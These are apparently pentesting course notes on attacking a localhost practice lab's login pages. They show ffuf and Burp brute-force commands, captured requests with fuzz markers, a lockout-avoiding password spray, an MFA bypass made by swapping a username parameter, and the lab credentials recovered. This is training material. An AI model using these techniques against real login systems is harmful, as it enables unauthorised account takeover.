





# Web App - Authentication Attacks

> - [Authentication | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/authentication)

---

## Attacking Authentication - Brute force

- Pay attention to authentication restrictions

**BurpSuite**

- Login here `http://localhost/labs/a0x01.php` and use BurpSuite intruder to brute-force the login
  - Load `/usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt` wordlist into Payload
  - Remember that BurpSuite Community Edition attacks are time throttled
  - Once it hits the correct password, the response of the page will be different, so the length will be different. Sort by **length**
  - 📌 Found creds: `jeremy`:`letmein`



**ffuf**

- Way faster than BurpSuite Community

```bash
nano req4.txt

# Add the request content from Burp Suite
```

```bash
POST /labs/a0x01.php HTTP/1.1
Host: localhost
Content-Length: 33
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/a0x01.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=jeremy&password=FUZZ
```

- Run `ffuf` with that request and use it as a baseline for the attack

```bash
ffuf -request req4.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt

# Filter the similar sizes
ffuf -request req4.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814
```



---

## Attacking Authentication - MFA

- Test the login flow with `jessamy`:`pasta` and MFA code
- Intercept the "Enter MFA" request with BurpSuite and change `username2` to `jeremy`
  - website is logged in with `jeremy`





---

## Attacking Authentication - Challenge

- Find a valid account and login as that account
- ❗ Accounts will lock after 5 failed login attempts - Reset labs at `http://localhost/init.php`
- Lets try to test a long list of usernames, and checking the top 4 passwords for those usernames, so there will be no lockout
- `admin`:`admin` - *Password incorrect, added a lockout attempt*
  - user `admin` exists

```bash
head /usr/share/wordlists/rockyou.txt
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123

head /usr/share/seclists/Passwords/xato-net-10-million-passwords-10.txt
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
```

- Adjust the payload depending on the situation or the targets

```bash
nano pass.txt

123456
password
letmein
teashop
```

- Copy request

```bash
nano teashop.txt
# in this case there will be 2 payloads
```

```bash
POST /labs/a0x03.php HTTP/1.1
Host: localhost
Content-Length: 29
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,applica>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/a0x03.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=FUZZUSER&password=FUZZPASS
```

- Note the `Content-Length: 3376`

```bash
ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376

# Results
...
[Status: 200, Size: 3256, Words: 1262, Lines: 68, Duration: 4597ms]
    * FUZZPASS: letmein
    * FUZZUSER: adm

[Status: 200, Size: 3256, Words: 1262, Lines: 68, Duration: 4596ms]
    * FUZZPASS: password
    * FUZZUSER: test

[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 4597ms]
    * FUZZPASS: letmein
    * FUZZUSER: admin
...
```

- Filter responses when an account does not exist based on the results, or just search for a different Size in the `ffuf` result list
- 📌 Found creds: `admin`:`letmein`



---

